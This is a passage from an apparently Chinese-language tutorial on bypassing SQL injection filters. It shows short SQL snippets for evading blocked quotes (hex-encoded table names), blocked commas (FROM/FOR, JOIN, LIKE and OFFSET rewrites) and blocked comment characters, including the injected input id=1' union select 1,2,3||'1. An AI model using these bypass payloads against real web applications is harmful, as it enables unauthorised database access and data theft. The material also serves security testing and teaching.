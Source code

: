 会使用到引号的地方一般是在最后的where子句中。如下面的一条SQL语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：

```sql
select column_name  from information_schema.tables where table_name="users"
```

这个时候如果引号被过滤了，那么上面的`where`子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。
`users`的十六进制的字符串是`7573657273`。那么最后的SQL语句就变为了：

```sql
select column_name  from information_schema.tables where table_name=0x7573657273
```

## 过滤逗号

### 使用**from关键字**绕过

对于`substr()`和`mid()`这两个方法可以使用`from to`的方式来解决：

```sql
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

### 使用**join关键字**绕过

```sql
union select 1,2
等价于
union select * from (select 1)a join (select 2)b
```

### 使用**like关键字**绕过

```sql
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

### 使用**offset关键字**绕过

对于limit可以使用offset来绕过：

```sql
select * from news limit 0,1
等价于
select * from news limit 1 offset 0
```

## 过滤注释符（ `#` 和 `--` ）

### 手动闭合引号，不使用注释符

```sql
id=1' union select 1,2,3||'1
```
